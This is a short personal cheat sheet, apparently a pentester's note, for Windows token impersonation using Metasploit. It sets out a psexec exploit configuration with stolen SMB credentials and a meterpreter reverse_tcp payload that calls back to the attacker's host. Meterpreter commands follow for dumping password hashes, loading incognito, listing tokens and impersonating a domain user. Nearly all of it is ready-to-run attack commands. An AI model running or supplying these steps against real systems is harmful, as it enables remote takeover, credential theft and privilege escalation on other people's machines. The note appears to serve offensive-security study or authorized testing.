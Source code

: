 **token impersonation using msf psexec module**
NOTE: noisy attack
IMPERSONATING IMPERSONATE TOKEN

<h4>msf</h4>
```
use exploit/windows/smb/psexec
set rhost <target ip>
set smbdomain <target domain>
set smbpass <password>
set smbuser <username>
set payload windows/x64/meterpreter/reverse_tcp
set lhost <network interface>
set target 2 (native upload)
run
```

<h4>meterpreter</h4>
hashdump (optional) - dump hashes
getuid - confirm usere/pwd
sysinfo - system info

<h4>impersonation</h4>
load incognito
list_token -u / -g (groups)
impersonate_token <domain\\user>

![[Pasted image 20250402230236.png]]

NOTE: if access denied
rev2self